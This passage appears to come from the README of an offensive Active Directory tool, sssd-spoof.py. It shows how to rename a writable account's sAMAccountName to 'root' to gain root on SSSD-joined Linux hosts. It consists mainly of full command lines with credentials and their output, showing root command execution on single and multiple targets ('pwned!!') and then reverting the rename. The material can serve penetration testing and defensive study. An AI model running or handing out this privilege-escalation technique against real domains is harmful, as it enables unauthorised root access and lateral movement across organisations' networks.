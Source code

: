 ## SAM Spoofing

Similarly, given write access to the `sAMAccountName` attribute, you can spoof the `sAMAccountName` to match that of a privileged local user. As you would imagine, this is not useful for domain users.

```
~$ sssd-spoof.py 'mercury.local'/'gatari':'P@ssw0rd'@L-PROD-WEB001.mercury.local --target-user 'svc_sql' --target-password 'P@ssw0rd123' --sam 'root' -x 'id && hostname'
[-] no KDC host specified, make sure you have a valid krb5.conf
[-] continuing with default (/etc/krb5.conf)
[*] Impacket v0.13.0.dev0+20250713.182712.930296c - Copyright Fortra, LLC and its affiliated companies 

[*] LDAP Bind => mercury.local\gatari @ ldap://mercury.local:389
[*] OK: sAMAccountName svc_sql => root
[*] saved TGT to root.ccache
[*] trying: L-PROD-WEB001.mercury.local
[*] pwned!!

uid=0(root) gid=0(root) groups=0(root)
L-PROD-WEB001.mercury.local

[*] connection closed.

[*] LDAP Bind => mercury.local\gatari @ ldap://mercury.local:389
[*] OK: sAMAccountName root => svc_sql
```

## Multiple Targets

You can also specify a file with one target host per line using the `-tf` option. This is useful for targeting multiple hosts at once.

```
~$ sssd-spoof.py 'mercury.local'/'gatari':'P@ssw0rd' -tf 'targets.txt' --target-user 'svc_sql' --target-password 'P@ssw0rd123' --sam 'root' -x 'id && hostname'                      
[-] no KDC host specified, make sure you have a valid krb5.conf
[-] continuing with default (/etc/krb5.conf)
[*] Impacket v0.13.0.dev0+20250713.182712.930296c - Copyright Fortra, LLC and its affiliated companies 

[*] LDAP Bind => mercury.local\gatari @ ldap://mercury.local:389
[*] OK: sAMAccountName svc_sql => root
[*] saved TGT to root.ccache
[*] trying: L-MGRT-APP001.mercury.local
[*] pwned!!

uid=0(root) gid=0(root) groups=0(root)
L-MGRT-APP001.mercury.local

[*] connection closed.

[*] trying: L-PROD-WEB001.mercury.local
[*] pwned!!

uid=0(root) gid=0(root) groups=0(root)
L-PROD-WEB001.mercury.local

[*] connection closed.

[*] LDAP Bind => mercury.local\gatari @ ldap://mercury.local:389
[*] OK: sAMAccountName root => svc_sql
```
